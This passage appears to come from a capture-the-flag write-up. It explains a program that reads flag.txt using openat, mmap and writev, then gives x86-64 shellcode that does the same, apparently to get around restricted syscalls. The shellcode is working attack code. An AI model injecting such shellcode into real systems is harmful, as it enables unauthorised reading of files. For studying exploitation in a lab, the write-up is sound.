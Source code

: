 ```c		

    return 0;
}
```

The program is pretty self-explanatory. Starting off with `openat` to open a file descriptor to `flag.txt`. As the relevant [manpage](https://linux.die.net/man/2/openat) suggests `AT_FDCWD` can be utilized to specify a relative path. Next the file is mapped to memory using `mmap`. The exact size of the flag inside `flag.txt` is unknown. I'll just use `128` bytes as length assuming that's large enough to hold the flag. Finally the mapped file is written to `STDOUT` using `writev`. According to its [manpage](https://linux.die.net/man/2/writev) `writev` expects a pointer to an `iovec struct` as a second argument. So I'll make sure to wrap the previously obtained pointer to our file in memory into this struct.

```bash
$ echo ehlo > flag.txt
$ ./test    
ehlo
```

Works as expected. So now this can be translated to assembly.

```asm
global _start

section .text
_start:
    xor rdx, rdx                ; null bytes
    mov rsi, 0x7478742e67616c66 ; flag.txt
    push rdx
    push rsi
    mov rdi, -100   ; AT_FDCWD
    lea rsi, [rsp]  ; flag.txt
    xor rdx, rdx    ; O_RDONLY (0)
    mov rax, 257    ; SYS_openat
    syscall
    push rax        ; save fd

    mov rax, 9      ; SYS_mmap
    xor rdi, rdi    ; NULL
    mov rsi, 0x80   ; alloc 128
    mov rdx, 0x01   ; PROT_READ
    mov r10, 0x02   ; MAP_PRIVATE
    mov r8, [rsp]   ; fd
    mov r9, 0x00    ; 0
    syscall

    push 0x80       ; size: 128
    push rax        ; iovec struct
    mov rdi, 0x01   ; STDOUT_FILENO
    lea rsi, [rsp]  ; add iovec struct
    mov rdx, 0x01   ; vlen 
    mov rax, 20     ; SYS_writev
    syscall
```
